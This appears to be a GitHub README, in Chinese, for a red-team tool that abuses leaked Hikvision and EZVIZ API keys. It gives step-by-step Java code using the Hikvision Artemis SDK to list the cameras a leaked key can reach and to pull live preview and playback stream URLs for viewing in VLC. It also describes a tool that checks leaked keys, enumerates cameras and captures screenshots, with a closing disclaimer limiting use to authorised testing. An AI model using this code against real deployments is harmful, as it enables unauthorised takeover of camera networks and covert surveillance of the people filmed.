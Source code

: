 # video-api-check
## 原理分析

海康威视/萤石等通过AK、SK进行身份验证，通过调用接口实现视频预览等功能。因此代码中泄露了key即可能造成摄像头集群被接管。

下面是某次攻防演习实战中遇到的hikvison凭证泄露。

![image-20211227100013822](https://nnotes.oss-cn-hangzhou.aliyuncs.com/notes/image-20211227100013822.png)

某次遇到萤石一个aksk可控7000+摄像头。

![image-20211227100829824](https://nnotes.oss-cn-hangzhou.aliyuncs.com/notes/image-20211227100829824.png)

## 利用方式

### 海康威视

海康API对接(JAVA)

> https://www.freesion.com/article/60261295938/

①下载官方sdk

> https://open.hikvision.com/download/5c67f1e2f05948198c909700?type=10

![image-20211227100140338](https://nnotes.oss-cn-hangzhou.aliyuncs.com/notes/image-20211227100140338.png)

②IDEA新建maven项目，并将OpenAPI认证库导入maven

```
mvn install:install-file 
 -Dfile=/Users/niudai/lang/apache-maven-3.6.3/artemis-http-client-1.1.3.jar
 -DgroupId=artemis-http-client
 -DartifactId=hk
 -Dversion=1.1.3
 -Dpackaging=jar
```

![image-20211227100203972](https://nnotes.oss-cn-hangzhou.aliyuncs.com/notes/image-20211227100203972.png)

③创建项目代码

![](https://nnotes.oss-cn-hangzhou.aliyuncs.com/notes/image-20211227100219316.png)

`pom.xml`增加dependencies

```xml
        <dependency>
            <groupId>artemis-http-client</groupId>
            <artifactId>hk</artifactId>
            <version>1.1.3</version>
        </dependency>
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.68</version>
        </dependency>
    </dependencies>
```

`DataTypeConversionUtil.java`

```java
public class DataTypeConversionUtil {
    public static Map<String,Object> getStringToMap(String str){
        JSONObject parseObject = JSONArray.parseObject(str);
        return parseObject;
    }
}
```

`HKUtil.java`

```java
import com.alibaba.fastjson.JSONObject;
import com.hikvision.artemis.sdk.ArtemisHttpUtil;
import com.hikvision.artemis.sdk.config.ArtemisConfig;

import java.util.HashMap;
import java.util.Map;

/**
 * 海康工具类
 */
public class HKUtil {
    static {
        // 代理API网关nginx服务器ip端口
        ArtemisConfig.host = "220.xxx.xxx.xxx";
        // 秘钥appkey
        ArtemisConfig.appKey = "xxxx";
        // 秘钥appSecret
        ArtemisConfig.appSecret = "uxxxxx";
    }
    /**
     * 能力开放平台的网站路径
     * TODO 路径不用修改，就是/artemis
     */
    private static final String ARTEMIS_PATH = "/artemis";
    /**
     * 通用海康接口
     * 调用POST请求类型(application/json)接口*
     * @return
     */
    public static Map<String,Object> publicHkInterface(JSONObject jsonBody,String url){
        final String getCamsApi = ARTEMIS_PATH +url;
        Map<String, String> path = new HashMap<String, String>(2);
        path.put("https://", getCamsApi);
        // post请求application/json类型参数
        String result =ArtemisHttpUtil.doPostStringArtemis(path,jsonBody.toJSONString(),null,null,"application/json",null);
        return  DataTypeConversionUtil.getStringToMap(result);
    }


    /**
     * 获取监控点预览取流URL
     * @param id 设备编号
     * @return
     */
    public static Map<String,Object> camerasPreviewURLs(String id){
        JSONObject jsonBody = new JSONObject();
//        jsonBody.put("cameraIndexCode", id);
//        jsonBody.put("protocol", "hls");、
//        jsonBody.put("streamType", 0);
//        jsonBody.put("protocol", "rtsp");
//        jsonBody.put("transmode", 1);
//        jsonBody.put("expand", "streamform=ps");
        Map<String,Object> returnMap=publicHkInterface(jsonBody,"/api/video/v1/cameras/previewURLs");
        return returnMap;
    }

    /**
     * API名称：
     * 查询监控点列表v2
     * 分组：
     * 视频资源接口
     * 提供方名称：
     * 资源目录服务
     * qps：
     * 描述：根据条件查询目录下有权限的监控点列表
     * @return
     */
    public static Map<String,Object> cameraSearch(){
        JSONObject jsonBody = new JSONObject();
        jsonBody.put("pageNo", 1);
        jsonBody.put("pageSize", 1000);
        jsonBody.put("resourceType", "door");
        Map<String,Object> returnMap=publicHkInterface(jsonBody,"/api/resource/v2/camera/search");
        return returnMap;
    }

    public static Map<String,Object> getCameraPlayBackURL(String id){
        JSONObject jsonBody = new JSONObject();
        jsonBody.put("cameraIndexCode", id);
//        jsonBody.put("protocol", "rtsp");
        jsonBody.put("beginTime", "2020-12-15T09:35:06.000+08:00");
        jsonBody.put("endTime", "2021-06-17T15:00:00.000+08:00");
        Map<String,Object> returnMap=publicHkInterface(jsonBody,"/api/video/v1/cameras/playbackURLs");
        return returnMap;
    }


    public static void main(String[] args) {
        System.out.println(cameraSearch());
//        System.out.println(camerasPreviewURLs("33068100001310938991"));
//        System.out.println(getCameraPlayBackURL("33068100001310938991"));
    }
}
```

先通过`cameraSearch()`即`/api/resource/v2/camera/search`接口，获取有权限的设备列表的信息。

<img src="https://nnotes.oss-cn-hangzhou.aliyuncs.com/notes/image-20211227100342015.png" alt="image-20211227100342015" style="zoom:50%;" />

比较重要的信息是`indexCode`和`regionPathName`，

获取视频流是调用`camerasPreviewURLs()`即`/api/video/v1/cameras/previewURLs`接口，需要传入`indexCode`，根据官方文档可以设置不同的取流协议（默认是rtsp）。

返回的视频流地址使用VLC连接即可。

![image-20211227100426041](https://nnotes.oss-cn-hangzhou.aliyuncs.com/notes/image-20211227100426041.png)

### 萤石

原理与海康威视大致相同，主要有两个区别。

1、不需要下载sdk，可以直接使用普通的http请求。

2、API接口由萤石官方提供`https://open.ys7.com`，海康则是部署在客户服务器上。

## 工具开发

开发了一个工具实现了以下功能。

1、验证泄露的key是否有效。

2、获取有权限的监控点列表。

3、输入视频流地址进行截图保存功能。

![](https://nnotes.oss-cn-hangzhou.aliyuncs.com/notes/image-20211227100543909.png)

## 免责声明

本工具仅面向**合法授权**的企业安全建设行为，且仅供学习研究自查使用，切勿用于非法用途，由使用该工具产生的一切风险均与本人无关！

